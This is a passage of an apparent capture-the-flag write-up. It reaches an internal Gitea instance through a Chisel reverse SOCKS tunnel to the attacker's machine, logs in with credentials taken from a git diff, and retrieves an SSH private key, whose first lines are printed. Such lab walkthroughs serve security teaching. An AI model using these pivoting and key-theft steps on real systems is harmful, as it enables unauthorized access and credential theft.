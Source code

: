 ```
/app # wget 10.10.11.164:3000
Connecting to 10.10.11.164:3000 (10.10.11.164:3000)
saving to 'index.html'
index.html           100% |********************************| 13414  0:00:00 ETA
'index.html' saved
/app # cat index.html | head
<!DOCTYPE html>
<html lang="en-US" class="theme-">
<head>
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <title> Gitea: Git with a cup of tea</title>
        <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR2l0ZWE6IEdpdCB3aXRoIGEgY3VwIG9mIHRlYSIsInNob3J0X25hbWUiOiJHaXRlYTogR2l0IHdpdGggYSBjdXAgb2YgdGVhIiwic3RhcnRfdXJsIjoiaHR0cDovL29wZW5zb3VyY2UuaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9vcGVuc291cmNlLmh0YjozMDAwL2Fzc2V0cy9pbWcvbG9nby5wbmciLCJ0eXBlIjoiaW1hZ2UvcG5nIiwic2l6ZXMiOiI1MTJ4NTEyIn0seyJzcmMiOiJodHRwOi8vb3BlbnNvdXJjZS5odGI6MzAwMC9hc3NldHMvaW1nL2xvZ28uc3ZnIiwidHlwZSI6ImltYWdlL3N2Zyt4bWwiLCJzaXplcyI6IjUxMng1MTIifV19"/>
        <meta name="theme-color" content="#6cc644">
        <meta name="default-theme" content="auto" />
        <meta name="author" content="Gitea - Git with a cup of tea" />
/app # 
```

<p>It's running what looks like Gitea that's listening on 127.0.0.1:3000. To access this properly from our attacking machine, we can look into <a href="https://github.com/jpillora/chisel">Chisel</a> to relay the traffic so we can actually browse this Gitea instance. First just have to copy the binaries across, which is easy with wget and a local http server on our attacking machine. Once across we have to do the below to proxy the traffic.</p>

<strong>Attacking Machine:</strong>
``` sudo chisel server --port 3000 -v --reverse --socks5 ```

<strong>Client Machine:</strong>
``` ./chisel client 10.10.14.44:3000 R:5000:socks ```

<p>Need to then enable Firefox to use the Chisel SOCKS proxy, on localhost on port 5000. We can now see Gitea instance. Now let's try and login with the credentials from the proxy we saw in the git diff.</p>

![image](/img/2022/06/image-9.png){:height="65%" width="65%"}

<p>After successful login, we can see some backup files, and inside the .ssh folder, we find a private key. Pull this private key down to your local machine. </p>

![image](/img/2022/06/image-10.png){:height="65%" width="65%"}

```sh
┌─[jayden@JD-Desktop]─[~/ctf/openssource]
└──╼ $cat id_rsa  | head
-----BEGIN RSA PRIVATE KEY-----
MIIJKQIBAAKCAgEAqdAaA6cYgiwKTg/6SENSbTBgvQWS6UKZdjrTGzmGSGZKoZ0l
xfb28RAiN7+yfT43HdnsDNJPyo3U1YRqnC83JUJcZ9eImcdtX4fFIEfZ8OUouu6R
u2TPqjGvyVZDj3OLRMmNTR/OUmzQjpNIGyrIjDdvm1/Hkky/CfyXUucFnshJr/BL
```
